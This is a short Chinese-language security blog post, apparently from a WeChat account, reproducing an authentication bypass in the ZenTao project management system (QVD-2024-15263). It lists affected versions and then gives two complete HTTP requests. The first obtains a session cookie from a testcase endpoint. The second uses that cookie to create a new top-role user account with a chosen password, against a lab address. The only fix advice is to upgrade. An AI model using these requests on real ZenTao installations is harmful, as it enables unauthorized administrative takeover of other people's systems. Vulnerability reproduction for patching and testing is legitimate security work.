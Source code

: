 #  【漏洞复现】ZenTao（禅道）身份认证绕过漏洞（QVD-2024-15263）   
紫色皓月  皓月的笔记本   2024-05-01 20:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。  
  
0X01   
简介  
  
禅道由禅道软件（青岛）有限公司开发，国产开源项目管理软件。  
  
  
漏洞编号：  
  
QVD-2024-15263  
  
  
影响范围：  
  
16.  
x <=   
禅道项目管理系统  
<
18.12  
（开源版）  
  
6  
.x <=   
禅道项目管理系统  
<
8.12  
（企业版）  
  
  
3.x <= 禅道项目管理系统< 4.12（旗舰版）  
  
  
复现环境：  
  
开源版18.11  
  
  
0X02   
漏洞复现  
```
GET /zentao/api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=&branch= HTTP/1.1
Host: 192.168.31.132

获取zentaosid
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPKQdbfOJm3ic1ZsAAYqdPPZO2pO4cWLdFOP7bbp72rMLr5Osu9dWZkeLjg9X4OaibNr8yyickgVUicXrw/640?wx_fmt=jpeg&from=appmsg "")  
```
POST /zentao/api.php/v1/users HTTP/1.1
Cookie: zentaosid=ceef15d311d3e922b18b29f9203261ad
Host: 192.168.31.132
Content-Length: 92

{"account": "test", "password": "1qaz@WSX", "realname": "test", "role": "top", "group": "1"}
替换获取的zentaosid，提示403账号添加成功。
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPKQdbfOJm3ic1ZsAAYqdPPZOrZP4xCKnBDynn0jF7SZZkM5Dl62ticHgnP82QNLCdibIR3QicIk4HnD5w/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPKQdbfOJm3ic1ZsAAYqdPPZOsE2BCFaFUwSibpmDMjUXcgy0u59CrLaYk2jAAiboVKURsUExdjYhN4JA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPKQdbfOJm3ic1ZsAAYqdPPZOXQuEvSm30hooCdu1dV9RHp6vCfQl7aPcJkgFfoQjtgUibss9Us6IVtQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
0X03 修复建议  
  
升级至安全版本及其以上！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
